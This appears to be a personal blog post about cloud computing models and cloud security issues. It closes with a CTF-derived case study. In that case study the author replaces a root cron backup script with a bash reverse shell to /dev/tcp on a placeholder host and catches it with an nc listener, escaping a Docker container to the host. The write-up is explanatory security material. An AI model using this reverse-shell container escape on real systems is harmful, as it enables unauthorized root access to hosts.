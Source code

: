 ```yaml
---
layout: post
title: Cloud Secuirty issues and solutions
categories: CyberSecurity
author: ThelastVvV
date: '2021-11-06 05:00:53 +0000'
tags:
  - blog
  - CyberSecurity
  - science
published: true

---
```



### Table of Contents :
1. [Introduction](#Introduction)
2. [Cloud Computing](#example2)
   1. [Deployment models](#Deployment)
   2. [Service models](#Service)
3. [Cloud Secuirty](#Cloud-Secuirty)
    1. [Issues](#issues)
    2. [Solution](#solutions)
4. [Thinking outside the box(Case Study)](#TOB)
<!-- toc -->



### Introduction:
 Cloud computing these day is a hot topic all over the world and in each tech newspaper you will read that from big tech companies massively investing in the cloud to goverments adopting the cloud as solution to IoT preparing to overtake cloud computing as primary industy technology ,simultaneously many concerns are rising from users data privacy to the cloud basic secuirty that why we need to understand the major cloud security issues and how to protect it and my suggestions to solve some of these basics issues.
### Cloud Computing  :
Cloud computing is technology of that uses as over internet services of storing and accessing data and programs remotely instead of traditional local computing .
#### Deployment models :
![1](https://i.imgur.com/rC0XesX.png)
Private cloud : owned and managed by one organization and a hosted cloud on a private network . Community cloud : owned and managed by one of the organization or third party but is shared between multiple organizations 
Public cloud: provider have hardware and infrastructure and any client access the services over the internet . 
Hybrid cloud : combinations set of the other clouds
#### Service models:
![1](https://www.redhat.com/cms/managed-files/iaas-paas-saas-diagram5.1-1638x1046.png)
SaaS Software As Service : that consumer use software application on cloud infrastructure which can been accessible from browser or program interface like google apps , netsuite  yahoo!mail...
PaaS Platform As Service  : that consumer can deploy onto cloud infrastructure  builded applications or important libraries , services and tools the user have control only over deployed applications and thier environment for example : Google App Engine, Apache Stratos, Red Hat OpenShift
Iaas Infrastructure As Service : the consumer get offer essential compute OS , networking resources (limited) and storage  a pay as you go services like AWS EC2,S3 ,Microsoft Azure ,Cisco Metacloud and rackspace
### Cloud Security  :
As many of organizations moved their data , app and assets to the cloud it become very important as we mentioned before to understand the issues and how to protect which we need to have a good sets of policies, controls , procedures and users educations to achieve our goal of protection against risks and attacks and to fix the issues. 
#### Issues :
The most major issues are  Data Breaches, availability and Data Loss, Account Hijacking , insecure authentication & authorization, ,Insecure and leaked APIs ,Denial of Service can shutdown the services ,Insufficient Due Diligence is an insufficiency of proper measures taken to ensure the credibility of the vendor Shared Technology Issues because of using of many services layers and if a shared platform component is compromised that will risk and exposes the entire environment  to be compromised .

#### Solutions:
The solution to all this issues in ensure to apply high measures of secure authentication and acces managment and validation of data management solutions and abilty to secure data also availability regrarding the data backup and recovery and daily security vulnerbality scanning with regular system configuration and patch managent and risk assesments  ,finally training employess about secuirt awareness and  personnel requirements, including clearances, roles, and responsibilities so eliminate any inside threats 
### Thinking outside the box(Case Study)  : 

After all the risks / issues and solutions we discussed previously and still many attacks on cloud occur per day  why ? simply cause threat actors are activly trying to find the way in the system finding a  mistake or fresh active vulnerability that can be exploited ...from my point of vue  most of exploited systems happens mostly from lazyness or a delayed patching of vulnerabilities and fixing misconfigurations so in this case study we talk about Containers as a Service (CaaS) "Cloud service model that allows users to upload, organize, start, stop, scale and otherwise manage containers, applications and clusters... Google Kubernetes and Docker Swarm are two examples of CaaS orchestration platforms" so CaaS can have same previous cloud services issues that can lead from compromise of a container image or container as a whole  to break out of the container and gain control over the host system. Now let demostrate how this clould be done !

```sh
cat backup.sh   
#!/bin/bash"
tar cf /root/container/backup/backup.tar /root/container
```
we have a backup.sh that runs every minute, taking the backup.tar to /root/container so  we  will need to edit this backupfile to reverse shell and bypass the docker-container so we just replace the backfile.tar to our reverse shell
```sh
echo "#!/bin/bash" > backup.sh;echo "bash -i >& /dev/tcp/RHOST/RPORT 0>&1" >> backup.sh
```
![1](https://www.thelastvvv.com/images/posts/3/ttt2.jpg)

then we will Now we start listening to port

```sh
nc -lvnp RPORT
```
![2](https://www.thelastvvv.com/images/posts/3/ttt4.png)
As we can see that we successfully escaped the the docker countainer to the host root server.
So the solution is simple is a day by day vulnerability assessment and threat intelligence analysing to mitigate and patch any potential threats .

Note*: the demostration is done by me during an old CTF writeup.
##### References:
https://nvlpubs.nist.gov/nistpubs/Legacy/SP/nistspecialpublication800-144.pdf
https://nvlpubs.nist.gov/nistpubs/legacy/sp/nistspecialpublication800-145.pdf
https://downloads.cloudsecurityalliance.org/initiatives/top_threats/The_Notorious_Nine_Cloud_Computing_Top_Threats_in_2013.pdf
https://webcache.googleusercontent.com/search?q=cache:XsiKlYeqYxEJ:https://www.ibm.com/services/cloud/containers-as-a-service+&cd=15&hl=en&ct=clnk&gl=ae
https://www.thelastvvv.com/ctf/2020/07/10/Dogcat-Writeup.html#privilege-escalation
https://www.redhat.com/en/topics/cloud-computing/iaas-vs-paas-vs-saas